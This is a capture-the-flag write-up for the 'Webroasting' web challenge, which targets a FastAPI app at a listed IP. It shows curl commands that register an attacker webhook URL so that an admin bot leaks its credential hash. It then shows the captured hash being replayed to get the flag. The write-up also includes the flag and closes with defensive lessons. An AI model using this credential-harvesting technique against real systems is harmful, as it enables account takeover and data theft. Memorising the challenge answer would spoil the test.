 # Webroasting - CTF Challenge Writeup

## Challenge Overview
This challenge involved exploiting a FastAPI web application with multiple endpoints to capture admin credentials and gain access to the flag.

## Target Information
- **URL**: `http://68.219.177.187:8003`
- **Framework**: FastAPI 0.1.0
- **Challenge Type**: Web exploitation, Credential harvesting

## Initial Reconnaissance

### API Endpoints Discovery
The application exposed several endpoints through its OpenAPI documentation:

1. `GET /` - Index page
2. `POST /register` - Service registration endpoint
3. `GET /login` - Login form
4. `POST /login` - Login authentication
5. `GET /admin` - Admin form
6. `POST /admin` - Admin access endpoint

### Key Endpoints Analysis

#### POST /register
- **Purpose**: Register a service with a name and URL
- **Parameters**:
  ```json
  {
    "service_name": "string",
    "service_url": "string"
  }
  ```

#### POST /admin
- **Purpose**: Admin access with hash-based authentication
- **Parameters**:
  - `username`: string
  - `provided_hash`: string

## Exploitation Strategy

### Step 1: Service Registration for Credential Harvesting

The key insight was that the application likely has an admin bot that visits registered service URLs. By registering a webhook URL, we could capture any authentication attempts made by the admin bot.

**Command used**:
```bash
curl -X POST http://68.219.177.187:8003/register \
  -H 'Content-Type: application/json' \
  -d '{"service_name":"exploit","service_url":"https://webhook.site/bf4837bb-a011-4282-bd6a-39e20b46ad9c"}'
```

**Response**:
```json
{"message":"Service exploit registered successfully"}
```

### Step 2: Credential Capture

After registering the webhook URL, the admin bot made a login attempt to our webhook endpoint. This allowed us to capture the following credentials:

**Captured payload**:
```json
{
  "username": "admin",
  "kerberos_hash": "8592769bb7b43cb292d0d75991682328",
  "source": "admin-bot"
}
```

**Extracted credentials**:
- **Username**: `admin`
- **Hash**: `8592769bb7b43cb292d0d75991682328`

![Admin Credentials](amdin_creds.png)

### Step 3: Admin Access

Using the captured credentials, we accessed the admin endpoint:

**Command used**:
```bash
curl -X POST http://68.219.177.187:8003/admin \
  -d "username=admin&provided_hash=8592769bb7b43cb292d0d75991682328"
```

**Response**:
```html
<!doctype html>
<html>
  <body>
    <h1>FLAG: SecurinetsENIT{27186e6c7a5b39d5d864031dcbe95a7f}</h1>
  </body>
</html>
```

## Technical Details

### Vulnerability Analysis
The application contained the following security issues:

1. **Insecure Service Registration**: The application allowed arbitrary URL registration without proper validation
2. **Admin Bot Behavior**: An automated admin bot visited registered URLs and inadvertently exposed credentials
3. **Credential Exposure**: The admin credentials were transmitted to external services during automated interactions

### Attack Vector
This was a **webhook-based credential harvesting attack** where:
1. We registered a malicious webhook URL as a service
2. The admin bot interacted with our webhook, exposing its credentials
3. We used the captured credentials to access the admin panel

## Flag
```
SecurinetsENIT{27186e6c7a5b39d5d864031dcbe95a7f}
```

## Lessons Learned

1. **Input Validation**: Service registration endpoints should validate and sanitize URLs
2. **Bot Security**: Admin bots should not expose sensitive credentials when visiting external URLs
3. **Access Control**: Hash-based authentication should use secure, non-predictable values
4. **URL Whitelisting**: Only trusted domains should be allowed for service registration

## Tools Used
- `curl` - For HTTP requests
- `webhook.site` - For credential capture
- Browser - For API documentation review

---
*Challenge completed successfully through webhook-based credential harvesting technique.*